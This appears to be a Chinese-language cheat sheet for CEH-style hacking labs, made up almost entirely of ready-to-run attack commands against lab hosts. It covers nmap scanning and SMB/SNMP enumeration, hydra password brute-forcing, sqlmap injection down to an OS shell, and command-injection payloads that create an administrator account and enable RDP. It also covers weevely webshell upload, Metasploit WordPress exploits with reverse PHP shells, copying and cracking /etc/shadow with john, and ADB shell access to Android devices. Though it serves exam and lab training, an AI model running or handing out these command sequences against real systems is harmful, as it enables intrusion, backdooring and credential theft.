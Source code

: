 ### 掃描與列舉

<details>
  <summary>使用NMAP掃描網路</summary>
  
  ``` console
  nmap -sn 10.10.10.*
  nmap -sn 10.10.10.* --packet-trace
  nmap -sn scanme.nmap.org --packet-trace
  ```
</details>

<details>
  <summary>使用NMAP掃描主機</summary>

  ```console
  nmap 10.10.10.9
  nmap 10.10.10.9 --reason
    最常用的1000個端口/usr/share/nmap/nmap-services
  nmap 10.10.10.9 -p-
  nmap 10.10.10.16 -sU -p53,137-139,161,1900,5353
  nmap -p80 10.10.10.*
  nmap -p80 10.10.10.2,10,13 --reason
  nmap -p80 10.10.10.* --open
  ```
</details>

<details>
  <summary>使用NMAP識別作業系統與服務</summary>

  ```console
  nmap 10.10.10.16 -O
  nmap 10.10.10.16 -sV
  nmap 10.10.10.16 -sVC -p445,3389
  nmap 10.10.10.16 -sV -O -sC -Pn -p445,3389,389,3268
    for windows
  ```
</details>

<details>
  <summary>列舉常見網路服務</summary>

  ```console
  nmap -sU -p161 --open 10.10.10.*
  nmap -sU -p161 -sC 10.10.10.*
  snmp-check 10.10.10.16
  nmap -sU -p161 --script snmp-win32-users 10.10.10.16
  nbtscan 10.10.10.1-254
  enum4linux 10.10.10.16
  hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
  hydra -l jason -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
    smb可換rdp
  enum4linux -u martin -p apple -a 10.10.10.16
    -a可替換-S -U -P
  python3 -m pip install --upgrade impacket
  crackmapexec smb 10.10.10.16 -u martin -p apple --shares
  ```
</details>

### 掃描與攻擊網頁程式

- 參數串改攻擊
<details>
  <summary>MSSQL隱碼攻擊</summary>

  ```console
  sqlmap -u "url" --cookie="<cookie>" 
  sqlmap -u "url" --cookie="<cookie>" --dbs 
  sqlmap -u "url" --cookie="<cookie>" -D dbname --tables 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users --columns --technique=B 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump --technique=B 
  sqlmap -u "url" --cookie="<cookie>" --os-shell
  ```
</details>

- MySQL盲隱碼攻擊

<details>
  <summary>命令注入攻擊</summary>

  ```console
  | whoami
  | net user cehp /add
  | net users
  | net localgroup Administrators cehp /add
  | net localgroup Administrators
  | reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  | netstat -an | findstr :3389
  ```
</details>

<details>
  <summary>Webshell上傳攻擊</summary>

  ```console
  weevely generate cehp backdoor.php
  weevely http://10.10.10.16:8080/dvwa/hackable/uploads/backdoor.php cehp
  whoami
  ```
</details>

<details>
  <summary>利用WPScan破解WordPress使用者密碼</summary>

  ```console
  whatweb http://10.10.10.16:8080/ceh
  wpscan --url http://10.10.10.16:8080/ceh -e u
  wpscan --url http://10.10.10.16:8080/ceh -P /usr/share/wordlists/nmap.lst
  ```
</details>

<details>
  <summary>利用Metasploit攻擊WordPress網站</summary>

  ```console
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_admin_shell_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username admin
  set password qwerty@123
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

- 安裝WordPress

<details>
  <summary>利用外掛漏洞攻擊WordPress網站</summary>

  ```console
  wpscan --url http://10.10.10.16:8080/ceh
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username cehuser1
  set password green
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

```console
ls /etc/passwd /etc/shadow
mkdir unix
cp /etc/passwd unix/passwd
cp /etc/shadow unix/shadow
ls unix/

unshadow unix/passwd unix/shadow > unix/pwdump.txt
john unix/pwdump.txt
john unix/pwdump.txt --show

網站
crackstation.net
gchq.github.io/CyberChef/
md5cal.com

ftp 10.10.10.10
jason
qwerty
get Flag.txt
```
```console
android

nmap -p5555 10.10.1.3-254 --open
adb connect 10.10.1.14:5555
adb devices
adb shell

su
find / -name images.jpeg 2> /dev/null

sha384sum /data/media/0/Download/images.jpeg

mkdir /sdcard/data
cp /data/media/0/Download/images.jpeg /sdcard/data
ls /sdcard/data
exit
exit

adb pull /sdcard/data/images.jpeg
ls images.jpeg
```
